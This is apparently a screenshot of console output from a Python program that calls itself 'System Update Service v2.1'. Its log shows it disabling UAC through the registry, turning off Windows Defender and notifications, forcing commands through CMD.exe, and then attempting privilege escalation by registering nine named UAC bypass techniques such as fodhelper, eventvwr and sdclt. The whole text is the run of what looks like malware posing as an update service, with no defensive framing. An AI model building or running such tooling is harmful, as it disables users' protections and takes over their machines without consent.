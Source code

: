 ```bash

[STARTUP] Python Agent Starting...
[STARTUP] Initializing components...
[STARTUP] === SYSTEM CONFIGURATION STARTING ===

[STARTUP] Step 0: Disabling WSL routing (AGGRESSIVE)...
[WSL] Disabling WSL command routing...
✅ [WSL] WSL routing disabled successfully!
[STARTUP] ✅ WSL routing disabled - commands will use CMD.exe directly

[STARTUP] Step 1: Disabling UAC...
[REGISTRY] Setting EnableLUA = 0
[STARTUP] ✅ UAC disabled successfully

[STARTUP] Step 2: Disabling Windows Defender...
[STARTUP] ✅ Windows Defender disabled successfully

[STARTUP] Step 3: Disabling Windows notifications...
[STARTUP] ✅ Notifications disabled successfully

[STARTUP] === SYSTEM CONFIGURATION COMPLETE ===
[STARTUP] Calling main_unified()...

============================================================
System Update Service v2.1
Initializing system components...
============================================================

[DEBUG] ================================================================================
[DEBUG] [PRIVILEGE ESCALATION] Starting privilege escalation...
[DEBUG] ================================================================================
[DEBUG] [PRIVILEGE ESCALATION] Windows detected - checking admin status...
[DEBUG] ❌ [ADMIN CHECK] Running as NORMAL USER (not admin)
[DEBUG] ================================================================================
[DEBUG] ❌ [PRIVILEGE ESCALATION] NOT ADMIN - NEED ELEVATION
[DEBUG] ================================================================================
[DEBUG] [PRIVILEGE ESCALATION] STEP 1: UAC bypass methods
[DEBUG] [UAC] Calling attempt_uac_bypass()...

[DEBUG] ================================================================================
[DEBUG] [UAC BYPASS] attempt_uac_bypass() called
[DEBUG] ================================================================================
[DEBUG] [UAC BYPASS] Checking if already admin...
[DEBUG] ❌ [ADMIN CHECK] Running as NORMAL USER (not admin)
[DEBUG] [UAC BYPASS] Not admin - starting UAC bypass...
[DEBUG] [UAC BYPASS] Initializing UAC Manager...

[DEBUG] [UAC MANAGER] Creating UACBypassManager instance...
[DEBUG] [UAC MANAGER] Creating RLock (should be patched by eventlet)...
[DEBUG] ✅ [UAC MANAGER] RLock created successfully
[DEBUG] [UAC MANAGER] Calling _initialize_methods()...
[DEBUG] [UAC MANAGER] Registering bypass methods...
[DEBUG]   Registering method: fodhelper
[DEBUG]   Registering method: computerdefaults
[DEBUG]   Registering method: eventvwr
[DEBUG]   Registering method: sdclt
[DEBUG]   Registering method: wsreset
[DEBUG]   Registering method: slui
[DEBUG]   Registering method: winsat
[DEBUG]   Registering method: silentcleanup
[DEBUG]   Registering method: icmluautil
[DEBUG] ✅ [UAC MANAGER] Registered 9 UAC bypass methods

```